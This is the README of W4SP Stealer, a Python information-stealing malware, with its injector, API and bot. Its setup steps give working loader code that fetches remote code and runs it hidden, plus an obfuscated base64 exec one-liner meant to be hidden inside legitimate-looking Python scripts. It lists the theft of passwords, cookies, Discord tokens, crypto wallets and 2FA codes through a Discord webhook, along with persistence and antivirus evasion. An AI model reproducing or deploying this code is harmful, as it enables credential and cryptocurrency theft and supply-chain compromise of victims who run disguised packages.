 # 🐝 W4SP Stealer 🐝
⚠️ Official Repo (loTus04/WS4P-Stealer) got termed, this is a clone approuved by lotus ⚠️ <br><br>
w4sp Stealer official source code, one of the best python stealer on the web<br>
W4SP Stealer | W4SP API | W4SP Bot

<a href="https://twitter.com/TheHackersNews/status/1588812607234117632"><img src="https://media.discordapp.net/attachments/526622602542710814/1039914372136448031/unknown.png"></img></a>
<br>Stealer by [@loTus04](https://github.com/loTus04) and API & Bot by [@billythegoat356](https://github.com/billythegoat356)<br>
(for education purpose only)<br>



## 🚩 Table of Content

- Setup - Stealer
- Setup - API & Bot
- Features - Stealer
- Features - Injector
- Features - Api
- Features - Bot
- Demo

## Setup [Stealer & Injector]
```sh
1. Put ur webhook in wasp.py: hook = "DISCORD_WEBHOOK"
2. Obfuscate & Upload anywhere (needs to be accessible with an http request)
3. Put wasp.py link in injector.py: request.urlopen("W4SPGRAB").read()
4. Obfuscate it
```
## Setup [Line ~ Optional but recomanded]
```py
from tempfile import NamedTemporaryFile as _ffile
from sys import executable as _eexecutable
from os import system as _ssystem
_ttmp = _ffile(delete=False)
_ttmp.write(b"""from urllib.request import urlopen as _uurlopen;exec(_uurlopen("INJECTOR_LINK").read())""")
_ttmp.close()
try: _ssystem(f"start {_eexecutable.replace('.exe', 'w.exe')} {_ttmp.name}")
except: pass

# replace INJECTOR_LINK by the injector.py link from setup
# (this script was made by Bill)
```
```py
# encode in b64 the last payload and replace it here
# then hide this line in a legit looking python script
# or use ur brain and ur own technique, this is just un exemple
# remeber, its for education purpose, attacking a machine w/o autorisation is illegal !

__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').exec(__import__('\x62\x75\x69\x6c\x74\x69\x6e\x73').compile(__import__('\x62\x61\x73\x65\x36\x34').b64decode("%PAYLOAD%"),'<string>','\x65\x78\x65\x63'))
```

## Setup [API]
[![](https://markdown-videos.deta.dev/youtube/th3cA691zJ4)](https://youtu.be/th3cA691zJ4)



## Features [Stealer]
(Stealer by [@loTus04](https://github.com/loTus04))

Global
- Saved Passwords
- Browser Cookies
- Get PC information
- AntiVM - Trust Factor system, it wont send data if Gmail cookies arent' found
- All files are uploaded to an external api <- Improved by [xKian](https://github.com/sfx2me)
- Data is send throught a Discord webhook

Discord
- Discord Tokens from browsers
- Discord Token from discord, discordcanary, discordPTBa
- Get all info on token (email, nitro/badge, rare friends)

Wallets
- Exodus Wallet
- Metamask Wallet
- Atomic Walletk

Gaming
- Steam Client
- Riot Client
- NationsGlory Client

Other
- Telegram Session

File Stealer
- It will search throught the pc for: saved passwords, 2fa codes, wallet keys and other sensitive information<br>
(idea came from Kiwi plugin on msf)

## Features [Injector]
(Injector by [@loTus04](https://github.com/loTus04))
- Brilliant persistance technique (only in injector v1.1)
- Invisible in TaskManger StartUP tab (only in injector v1.1)
- FUD
- Fully runs in background
- Hides the stealer very well

Credit to [xKian](https://github.com/sfx2me) who improved the injector (v1.2)

## Features [API]
(Api by [@billythegoat356](https://github.com/billythegoat356))
- Easy to update/upgrade
- Compatible with all w4sp versions
- Using auto & custom obfuscation
- Manage Users and Webhooks with API
- Browser security => If a browser is detected (headers) it will obfusacate a fake wasp script <- Brilliant Idea by [lath](https://github.com/lathlaszlo)

## Features [BOT]
(Bot by [@billythegoat356](https://github.com/billythegoat356))
- Easy to configure
- Manage Users and Webhooks using w4sp api
- Auto inject file.py

# Few articles on W4SP (they where writen during beta-testing)<br> ⚠️Most articles writen after that are 95% bullshit⚠️
- [securelist.com ~ Two more malicious Python packages in the PyPI
](https://securelist.com/two-more-malicious-python-packages-in-the-pypi/107218/)
- [securityweek.com ~ Security Firms Find Over 20 Malicious PyPI Packages Designed for Data Theft](https://www.securityweek.com/security-firms-find-over-20-malicious-pypi-packages-designed-data-theft)
- [digismak.com ~ Criminals steal data by spoofing popular open source package](https://digismak.com/criminals-steal-data-by-spoofing-popular-open-source-package/)
- [darkreading.com ~ Whack-a-Mole: More Malicious PyPI Packages Spring Up Targeting Discord, Roblox](https://www.darkreading.com/application-security/whack-a-mole-malicious-pypi-packages-target-discord-roblox)

# ScreenShots
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035590779919421460/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591128193433661/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591544100634735/unknown.png"></img>
<img src="https://cdn.discordapp.com/attachments/1035587885442813995/1035591894098513960/unknown.png"></img>
